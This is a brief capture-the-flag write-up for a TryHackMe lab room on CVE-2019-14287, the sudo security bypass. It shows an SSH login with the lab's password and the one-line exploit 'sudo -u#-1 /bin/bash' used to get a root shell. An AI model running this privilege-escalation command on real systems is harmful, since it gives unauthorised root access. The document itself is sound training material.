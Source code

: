 ```yaml
---
description: A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program
---
```


# Sudo Security Bypass

## :top: Security Bypass

### #1 **What command are you allowed to run with sudo?**

```
sshpass -p tryhackme ssh -p 2222 tryhackme@10.10.28.74
sudo -l
```

![](<../../.gitbook/assets/Screenshot from 2020-08-24 09-03-23.png>)

### **#2 What is the flag in /root/root.txt?**

```
sudo -u#-1 /bin/bash
```

![](<../../.gitbook/assets/Screenshot from 2020-08-24 09-17-21.png>)
